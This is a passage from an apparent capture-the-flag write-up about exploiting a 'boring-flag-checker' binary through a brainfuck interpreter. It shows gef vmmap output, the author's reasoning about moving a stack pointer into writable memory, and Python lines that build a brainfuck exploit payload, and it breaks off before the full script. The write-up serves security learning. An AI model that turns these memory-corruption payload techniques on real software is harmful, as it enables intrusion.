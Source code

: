 ```  
```  
In an example run, the contents of rbp+0x10 were equal to 0x00007ffff7ffc620.
After looking at vmmap on the same run, it looks like 0x00007ffff7ff**d**620
would be in writable memory, so if I just increment the second byte up 0x10
times after moving it to rbp, I should have the stack set up for a successful
exploit.  
```  
gef➤  vmmap  
[ Legend:  Code | Heap | Stack ]  
Start              End                Offset             Perm Path  
0x0000555555554000 0x0000555555555000 0x0000000000000000 r--
/home/ubuntu/Downloads/boring-flag-checker  
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x
/home/ubuntu/Downloads/boring-flag-checker  
0x0000555555556000 0x0000555555557000 0x0000000000002000 r--
/home/ubuntu/Downloads/boring-flag-checker  
0x0000555555557000 0x0000555555558000 0x0000000000002000 r--
/home/ubuntu/Downloads/boring-flag-checker  
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw-
/home/ubuntu/Downloads/boring-flag-checker  
0x00007ffff7dc6000 0x00007ffff7deb000 0x0000000000000000 r--
/usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007ffff7deb000 0x00007ffff7f63000 0x0000000000025000 r-x
/usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007ffff7f63000 0x00007ffff7fad000 0x000000000019d000 r--
/usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007ffff7fad000 0x00007ffff7fae000 0x00000000001e7000 ---
/usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007ffff7fae000 0x00007ffff7fb1000 0x00000000001e7000 r--
/usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007ffff7fb1000 0x00007ffff7fb4000 0x00000000001ea000 rw-
/usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007ffff7fb4000 0x00007ffff7fba000 0x0000000000000000 rw-  
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]  
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]  
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r--
/usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x
/usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r--
/usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r--
/usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw-
/usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-  
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]  
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]  
gef➤  
```  
So, the example script from the wiki basically just needs to have each of the
portions that move the pointer up by two cells increased to 16, as well as
adding more pointer movements to move to the next byte of the address. I also
incremented the second byte up from 0x10 will I on that byte. Here is the
relevant portion of the script:  
```  
bf_payload += '<' * (8 + 2) + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>'
* 0x10 + ']' + '.' + '<' * 0x10  
bf_payload += '>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 +
']' + '.'  + '<' * 0x10 + '+' * 0x10  
bf_payload += ('>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 +
']' + '.'  + '<' * 0x10) * 4  
```  
The final, full script to create the modified brainf*** script and store it in